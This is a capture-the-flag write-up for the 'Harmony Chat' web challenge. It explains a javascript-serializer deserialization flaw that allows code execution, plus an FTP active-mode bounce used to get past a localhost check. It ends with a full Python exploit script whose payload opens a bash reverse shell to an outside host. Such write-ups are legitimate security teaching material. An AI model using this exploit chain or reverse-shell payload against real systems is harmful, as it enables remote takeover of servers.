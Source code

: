 # Harmony Chat (web, 283p, 27 solves)

![main](./files/main.png)

Harmony Chat is Web Challenge implemented Chat application.

You can register/login user and inviting someone to chat room.

challenge source is available in [here](./files/harmony.zip)

```js
const crypto = require("crypto")
const json = require("javascript-serializer")

const utils = {}

utils.validateAndDecodeJSON = (data, jsonSchema) => {
  const decoded = JSON.parse(data)

  const result = ajv.validate(jsonSchema, decoded)
  if (!result) {
    throw ajv.errorsText()
  }

  return json.fromJSON(decoded)
}
```
In utils.js, validateAndDecodeJSON calls fromJSON of `javascript-serializer` module.

`javascript-serializer` is supported to deserialize function similar with `node-serialize` known as one of vulnerable module.

```js
const handleReport = (req, res) => {
  let data = Buffer.alloc(0)

  req.on("data", chunk => {
    data = Buffer.concat([data, chunk])
  })

  req.on("end", () => {
    res.status(204).end()

    if (!isLocal(req)) {
      return
    }

    try {
      const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
      console.error(generateTextReport(report["csp-report"]))
    } catch (error) {
      console.warn(error)
      return
    }
  })
}

const generateTextReport = report => {
  let text = "\nContent Security Policy violation!\n"
  text += `Document URI: ${report["document-uri"]}\n`
  text += `Blocked URI : ${report["blocked-uri"]}\n`
  text += `Directive   : ${report["violated-directive"]}\n`
  text += `Full Policy : ${report["original-policy"]}\n`

  if (report["script-sample"]) {
    text += `Sample      : ${report["script-sample"]}\n`
  }

  let sourceInfo = ""
  if (report["source-file"]) {
    sourceInfo += report["source-file"]
  }

  if (report["line-number"]) {
    sourceInfo += `:${report["line-number"]}`
  }

  if (report["column-number"]) {
    sourceInfo += `:${report["column-number"]}`
  }

  if (sourceInfo.length > 0) {
    text += `Source      : ${sourceInfo}\n`
  }

  return text
}
```

After deserialized, the csp-report property of result used for constructing report which is string type.

This means specific property of the report can be converted to string by calling their toString method.

```js
const data = `{"csp-report":{"blocked-uri":"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process)"}}}}`;

const report = utils.validateAndDecodeJSON(data, REPORT_SCHEMA)
console.error(generateTextReport(report["csp-report"]))
```

from the [docs](https://github.com/wix-incubator/javascript-serializer), We could know `javascript-serializer` allows to constructor object by setting `___js-to-json-class___` property.

So, above is actual input for executing script by `javascript-serializer`

```js
const REPORT_URL = "/csp-report"

const ContentSecurityPolicy = (req, res, next) => {
  if (req.path === REPORT_URL &&
      req.method === "POST" &&
      req.headers["content-type"] === "application/csp-report") {
    handleReport(req, res)
    return
  }

  injectCSPHeaders(req, res)
  next()
}
```

How to trigger, handleReport called when it received POST request for `/csp-report` route.

And their body will be given to argument of vulnerable point.

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```

but since there's ip restriction for the handleReport function.
We should bypass this with ftp active mode.

after writing valid http request to log,
We can transfer it to any host using ftp.

```python
from websocket import create_connection
import json, random
from pwn import *
import time

context.log_level = 'debug'

HOST = 'harmony-1.hackable.software'

def init():
    global channel_id, channel_id2, host_ws, user_id

    host_ws = create_connection(f'ws://{HOST}:3380/chat')

    host_ws.send('{"type":"register","displayName":"POST /csp-report?"}')
    res = json.loads(host_ws.recv())
    host_ws.recv()

    user_id = res['uid']
    print('[*] user id: ' + user_id)

    host_ws.send('{"type":"new-channel","name":"' + str(random.randint(10000, 99999)) + '"}')
    res = json.loads(host_ws.recv())
    
    channel_id = res['channels'][0]['chId']
    print('[*] channel id: ' + channel_id)

    payload = 'HTTP/1.1'
    host_ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(payload) + '}')

    host_ws.recv()

def save_msg(name, message):
    global channel_id, host_ws

    ws = create_connection(HOST)

    ws.send('{"type":"register","displayName":' + json.dumps(name) + '}')
    res = json.loads(ws.recv())
    ws.recv()

    user_id = res['uid']

    host_ws.send('{"type":"invite","chId":' + json.dumps(channel_id) + ',"uid":' + json.dumps(user_id) + '}')
    res = json.loads(host_ws.recv())

    ws.send('{"type":"message","chId":' + json.dumps(channel_id) + ',"msg":' + json.dumps(message) + '}')

    res = json.loads(ws.recv())

    ws.close()

# open channel for constructing log
init()

# writing HTTP header
save_msg('Content-Length', '345')
save_msg('Content-type', 'application/csp-report')
save_msg('Connection', 'close')

# message with no content adds new line
save_msg('RN', '')

save_msg('{"csp-report":{"blocked-uri"', """"","document-uri":"","effective-directive":"","original-policy":"","referrer":"","status-code":"","violated-directive":"","source-file":{"toString":{"___js-to-json-class___":"Function","json":"console.log(process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/4444 0>&1'`)+[])"}}}}""")

host_ws.close()

# ftp stage (bypassing host restriction)

p = remote(HOST, 3321)
p.sendline('user ' + user_id)
p.sendline('pass')

time.sleep(3)

p.sendline('PORT 127,0,0,1,13,52')
p.sendline('retr ' + channel_id)

p.interactive()
```
